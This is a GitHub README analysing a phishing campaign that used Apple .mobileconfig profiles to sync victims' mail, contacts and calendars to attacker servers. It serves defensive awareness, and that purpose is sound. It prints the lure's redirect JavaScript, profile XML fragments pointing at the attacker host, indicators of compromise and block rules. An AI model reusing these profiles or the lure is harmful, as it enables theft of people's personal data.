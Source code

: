 # Phishing-apple-mobileconfig-breakdown
Analysis of a phishing campaign using Apple `.mobileconfig` profiles for email, contacts, and calendar exfiltration.

## Background

This repository was created using the files and information from a phishing email I personally received.  
I regularly analyze phishing attempts I encounter, both out of curiosity and to stay aware of evolving techniques. In this case, while the email itself was part of a typical mass phishing campaign and used fairly standard methods, I chose to document it here as a **learning resource** for others.  
The campaign leverages Apple `.mobileconfig` profiles which may be useful for those studying mobile or configuration-based threats.

**Don't open the `.mobileconfig` files on an iPhone**
The phishing site is likely down by the time I post this but it may still attempt installing profiles on your phone.

---


![82628182](https://github.com/user-attachments/assets/d2108cb0-d1e9-4708-a62b-8f1186df4aba)




## Summary

This repository documents a phishing campaign observed in May 2025 that targets Apple device users by abusing `.mobileconfig` files — a lesser-known but legitimate configuration mechanism used on iOS and macOS systems. The campaign delivers three malicious configuration profiles via email, each designed to silently configure the victim’s device for data exfiltration.

Once installed, these profiles automatically connect the victim's device to attacker-controlled infrastructure by:
- Adding a **malicious IMAP/SMTP email account**
- Syncing the device's **contacts** via CardDAV
- Accessing the user's **calendar** via CalDAV

All payloads are disguised as part of a “Secure Setup” and reference domains that appear vaguely professional (e.g., `eu40.1host.gr`). While the phishing email itself was generic and mass-distributed.

---

## Key Findings

- Delivered via phishing email impersonating Microsoft  
- `.mobileconfig` profiles install silently on iOS/macOS devices  
- Targets:
  - **Mail** (`com.apple.mail.managed`)
  - **Contacts** (`com.apple.carddav.account`)
  - **Calendar** (`com.apple.caldav.account`)
- Backend controlled by attacker at `mail.blutr.gr`  
- SSL misconfiguration (port 2080) used to avoid detection  
- Redirection script used to fake legitimacy and lure users to spoofed login page  

---

## Email Payload Overview

**Sender (spoofed):**
```
info.mail.mr@mi-robotic.com
```

**Observed Subject:**
```
Microsoft Secure Document Access
```

**Malicious Attachments:**
- `email-gdgraphic.mobileconfig`
- `carddav-gdgraphic.mobileconfig`
- `caldav-gdgraphic.mobileconfig`

---

## Redirection JavaScript

This JavaScript is embedded in a fake Billing Details button:

```javascript
setTimeout(() => {
  document.getElementById("loader").style.display = 'block';
  document.getElementById("success").style.display = 'block';
}, 100);

setTimeout(() => {
  window.location.href = "https://live.microsoft.outh.sso.50-6-202-90.cprapid.com/?Xkjvaksk121asIghlasdqwe";
}, 1000);
```

### Purpose:
- Displays a fake success/loading screen
- The portion of the url "live.microsoft.outh.sso." is added to make the link seem legitimate
- Redirects to their phishing site impersonating Microsoft’s login page
- Uses "cprapid.com" an auto-generated hostname for web-hosting accounts using cPanel
- "50.6.202.90" the IP of the physical server where the phishing site is hosted ([IP address information](https://www.shodan.io/host/50.6.202.90))
- Finally, "Xkjvaksk121asIghlasdqwe" is a tracking token and can be used to auto populate fields on the fake page

---

## `.mobileconfig` Payloads Breakdown

### 1. Mail Account Configuration

```xml
<key>PayloadType</key>
<string>com.apple.mail.managed</string>
<key>EmailAddress</key>
<string>blutrgr@eu40.1host.gr</string>
<key>IncomingMailServerHostName</key>
<string>mail.blutr.gr</string>
<key>IncomingMailServerPortNumber</key>
<integer>993</integer>
<key>OutgoingMailServerPortNumber</key>
<integer>465</integer>
```

- Configures Apple Mail with IMAP/SMTP  
- SSL used on standard ports (993/465)  
- Server controlled by attacker  
- Enables attacker to monitor or send mail from the device  

---

### 2. CardDAV (Contacts)

```xml
<key>PayloadType</key>
<string>com.apple.carddav.account</string>
<key>CardDAVHostName</key>
<string>mail.blutr.gr:2080</string>
```

- Syncs the user’s address book with the attacker’s server  
- Port 2080 is suspicious — not standard for SSL or CardDAV  
- Can exfiltrate names, phone numbers, and email addresses  

---

### 3. CalDAV (Calendar)

```xml
<key>PayloadType</key>
<string>com.apple.caldav.account</string>
<key>CalDAVHostName</key>
<string>mail.blutr.gr</string>
<key>CalDAVPort</key>
<integer>2080</integer>
```

- Syncs user calendar to attacker infrastructure  
- May enable the injection of malicious or misleading events  

---

## Indicators of Compromise (IOCs)

| Type            | Value                                                  |
|-----------------|--------------------------------------------------------|
| Email           | `blutrgr@eu40.1host.gr`                                |
| Hostname        | `mail.blutr.gr`                                        |
| Fake MS login   | `live.microsoft.outh.sso.50-6-202-90.cprapid.com`      |
| Ports           | 993, 465, **2080**                                     |
| File Types      | `.mobileconfig`                                        |
| Payload Types   | `com.apple.mail.managed`, `com.apple.carddav.account`, `com.apple.caldav.account` |

---

## Mitigation and Detection

### For Individuals:
- Never install `.mobileconfig` files unless provided by verified IT personnel  
- On iOS: **Settings > General > VPN & Device Management**  
- On macOS: **System Settings > Profiles**

### For Organizations:
- Block `.mobileconfig` attachments at email gateway  
- Monitor or block outbound traffic to:
  - `mail.blutr.gr`
  - `*.1host.gr`
  - `*.cprapid.com` (especially from Apple devices)
- Disable unmanaged profile installation via MDM policies  
- Watch for CardDAV/CalDAV traffic over non-standard ports (e.g. 2080)

---

## Conclusion

This campaign demonstrates a clever and low-interaction method of data exfiltration using trusted Apple device features. By leveraging `.mobileconfig` profiles, attackers bypass traditional phishing detection and gain persistent access to sensitive information.

### This repository contains:
- Sample redacted profiles for reference (`.mobileconfig` file's)
- Indicators of compromise.
- Write-up to raise awareness of configuration profile abuse.
   


